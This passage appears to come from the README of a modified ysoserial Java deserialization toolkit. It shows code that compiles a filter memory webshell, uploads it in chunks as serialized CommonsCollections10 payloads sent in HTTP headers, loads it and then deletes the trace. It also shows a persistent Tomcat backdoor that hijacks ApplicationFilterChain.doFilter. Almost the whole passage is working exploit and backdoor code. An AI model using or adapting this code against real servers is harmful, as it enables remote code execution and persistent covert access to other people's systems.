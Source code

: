 ```java
        String java = new String(ReadWrite.readResource(Test.class,"内存马/filter/FilterShell2.java"));
        byte[] b = JavaCompiler.compile("FilterShell2",java);


        System.out.println(b.length);
        int i = 0;
        boolean flag = true;
        int l = 1000;
        while (flag){
            byte[] slice = null;
            if(i+l < b.length){
                slice = Arrays.copyOfRange(b, i, i+l);
                i += l;
            }else {
                slice = Arrays.copyOfRange(b, i, b.length);
                flag = false;
            }
            Object o = new Eval().uploadFile(CommonsCollections10.class,slice,classPath,i > l);
            byte[] ser = Serializer.serialize(o);
            new HttpRequest(url).addHeader("data", Base64.getEncoder().encodeToString(ser)).send();
        }
        Object o = new Eval().loadClass(CommonsCollections10.class,classPath,className);
        byte[] ser = Serializer.serialize(o);
        new HttpRequest(url).addHeader("data", Base64.getEncoder().encodeToString(ser)).send();

        o = new Eval().deleteFile(CommonsCollections10.class,classPath);
        ser = Serializer.serialize(o);
        new HttpRequest(url).addHeader("data", Base64.getEncoder().encodeToString(ser)).send();
    }
}
```

### tomcat 持久化后门：

> 支持所有底层用了 `TemplatesImpl` 的链子

劫持 `ApplicationFilterChain` 的 `doFilter()` ：

```java
package top.inhann;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections10;
import ysoserial.payloads.persist.ApplicationFilterChain_doFilter;
import ysoserial.payloads.util.HttpRequest;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8081/bitch";
        Object o = new ApplicationFilterChain_doFilter().getObject(CommonsCollections10.class,"/usr/local/tomcat");
        byte[] ser = Serializer.serialize(o);
        new HttpRequest(url).addPostData(ser).send();
    }
}
```
